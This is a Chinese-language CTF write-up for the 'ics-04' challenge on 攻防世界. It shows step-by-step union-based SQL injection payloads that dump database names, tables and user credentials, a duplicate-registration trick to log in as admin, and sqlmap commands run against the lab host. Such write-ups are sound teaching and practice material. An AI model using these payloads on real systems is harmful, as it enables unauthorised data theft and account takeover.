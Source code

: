 ```yaml
---
layout:     post               # 使用的布局（不需要改）
title:      ics-04    # 标题 
subtitle:    攻防世界   #副标题
date:       2020-07-22         # 时间
author:     yanmie             # 作者
header-img: img/.jpg    ##标签这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               
    - CTF
  
---
```



题目描述： 

	工控云管理系统新添加的登录和注册页面存在漏洞，请找出flag。

打开环境，发现就一个登录和注册功能可以用。还有一个用户找回密码功能。

![UHo2Ax.png](https://s1.ax1x.com/2020/07/22/UHo2Ax.png)

![UHo5ge.png](https://s1.ax1x.com/2020/07/22/UHo5ge.png)

我创建了一个名为i`admin`的用户，进行登录，结果发现：

	普通用户登录成功,没什么用

![UHT156.png](https://s1.ax1x.com/2020/07/22/UHT156.png)

enmmmm

再看一下`忘记密码`这里，发现好可疑，我都忘记密码了，还叫我输入原密码。。。。

![Ubitbt.png](https://s1.ax1x.com/2020/07/22/Ubitbt.png)

![Ubi2V0.png](https://s1.ax1x.com/2020/07/22/Ubi2V0.png)

同时这里`admin`,这个位置也有回显，在没有其他方法的情况下的，猜测可以`sql注入`。

抓包进行搞一波。

#### 判断注入

`username=admin' #`

![UbijPO.png](https://s1.ax1x.com/2020/07/22/UbijPO.png)

存在sql注入。

页面只有两种状态，所以不能进行报错注入。

#### 判断字段

`username=admin' order by 5 #`，页面回显错误

![UbF4TP.png](https://s1.ax1x.com/2020/07/22/UbF4TP.png)

`username=admin' order by 4 #`，页面回显正常，说明字段数是4

![Ubkek6.png](https://s1.ax1x.com/2020/07/22/Ubkek6.png)


#### 爆数据库

`username=-admin' union select 1,2,3,4 #`

![UbkhjJ.png](https://s1.ax1x.com/2020/07/22/UbkhjJ.png)

3位置为回显位置，

查数据库发现没查出来。。。估计是被过滤了，查`version()` 和`user()`还是正常的。

![UbEezD.png](https://s1.ax1x.com/2020/07/22/UbEezD.png)

那么我们换一种方式查数据库。

mysql数据库中`information_schema.schemata`表中`schema_name`字段中存有所有的数据库名。

`username=-admin' union select 1,2,group_concat(schema_name),4 from information_schema.schemata #`成功查出所有数据库，`information_schema,cetc004,mysql,performance_schema`

![UbmXgf.png](https://s1.ax1x.com/2020/07/22/UbmXgf.png)

当前数据库应该就是`cetc004`

#### 爆表名

`username=-admin' union select 1,2,group_concat(table_name),4 from information_schema.tables where table_schema='cetc004' #`,爆出表`user`

![UbnLdJ.png](https://s1.ax1x.com/2020/07/22/UbnLdJ.png)

#### 爆字段

`username=-admin' union select 1,2,group_concat(column_name),4 from information_schema.columns where table_schema='cetc004' and table_name='user' #`爆出字段`username,password,question,answer`

![Ubuj0g.png](https://s1.ax1x.com/2020/07/22/Ubuj0g.png)

#### 爆内容

`username=-admin' union select 1,2,group_concat(0x5e,username,0x7e,password,0x7e,question,0x7e,answer,0x5e),4 from cetc004.user  #`爆出内容

`^c3tlwDmIn23~2f8667f381ff50ced6a3edc259260ba9~cetc~cdwcewf2e3235y7687jnhbvdfcqsx12324r45y687o98kynbgfvds^,^admin~21232f297a57a5a743894a0e4a801fc3~admin~admin^,^123456~a3fb76a5280eb3944fca991d0e0ce4ac~123456'~123456'^,^111111'#~30499fff77973812fa88165fda4a3358~111111'#~111111'#^`

发现有一个我没注册过的。

![UbKeAJ.png](https://s1.ax1x.com/2020/07/22/UbKeAJ.png)

第一个是本来就有的，后边的是我注册的。

密码md5解密一下，发现大部分网站解密不了。

用下面这个解开的

https://www.somd5.com/

如果解密不了，这里还有其他办法。

直接忘记密码是不可以的，因为要验证原密码。

那么我们试试能不能注册相同的用户。我们这里在注册一个admin用户。发现以前注册的可以登录，现在注册的也可以登录。那么如果登录时判断是否为普通用户值判断用户名，那么就可以绕过了。

![UbKjv6.png](https://s1.ax1x.com/2020/07/22/UbKjv6.png)

注册成功。

![UbMP5d.png](https://s1.ax1x.com/2020/07/22/UbMP5d.png)

登录成功，拿到flag.

![UbMA2t.png](https://s1.ax1x.com/2020/07/22/UbMA2t.png)



## sqlmap跑一波


`python2 sqlmap.py -u http://220.249.52.133:51251/findpwd.php --data="username=1" --dbs --batch`
爆出数据库。

`python2 sqlmap.py -u http://220.249.52.133:51251/findpwd.php --data="username=1" -D cetc004 --tables --batch`
爆出表

`python2 sqlmap.py -u http://220.249.52.133:51251/findpwd.php --data="username=1" -D cetc004 -T user --dump  --batch`爆出内容。

![UblW8A.png](https://s1.ax1x.com/2020/07/22/UblW8A.png)

